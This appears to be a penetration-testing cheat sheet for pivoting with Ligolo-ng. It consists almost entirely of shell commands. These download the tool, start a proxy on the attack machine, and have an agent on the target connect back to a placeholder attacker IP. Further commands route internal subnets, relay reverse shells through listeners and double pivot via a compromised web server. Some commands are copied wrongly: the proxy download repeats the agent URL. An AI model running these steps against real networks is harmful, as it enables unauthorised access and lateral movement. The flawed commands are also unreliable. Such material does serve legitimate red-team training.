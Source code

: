 ## Ligolo-ng

Below are the steps to setup ligolo-ng for pivoting:

```shell
# Download agent file
sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz

# Download proxy file (for attack machine)
sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz

# Extract the files
tar -xvf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz

# Create and start the tun interface
sudo ip tuntap add user $USER mode tun ligolo
sudo ip link set ligolo up

# Start ligolo on attack machine
./proxy -selfcert -laddr 0.0.0.0:443 

# Start ligolo on target
./agent -connect <attacker_IP>:443 -ignore-cert

# Add target network to ligolo routes on attack machine
sudo ip route add <subnet> dev ligolo
```

Now start the tunnel

```shell
# Get list of active sessions and select one
ligolo > session

# Start the tunnel
ligolo > start
```

To catch reverse shells, add listeners:

```shell
# Run the agent at port 1234 and redirect
# the traffic to port 4444 on our machine.
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444
```

For double pivoting use the following commands:

```shell
# Add a new listener
listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601

# Use the IP of the compromised web server using our newly added listener.
./agent.exe -connect 172.16.5.15:11601 -ignore-cert

# Switch sessions on attack machine
ligolo > session

# Add new subnet to ligolo routes
sudo ip route add <subnet> dev ligolo
```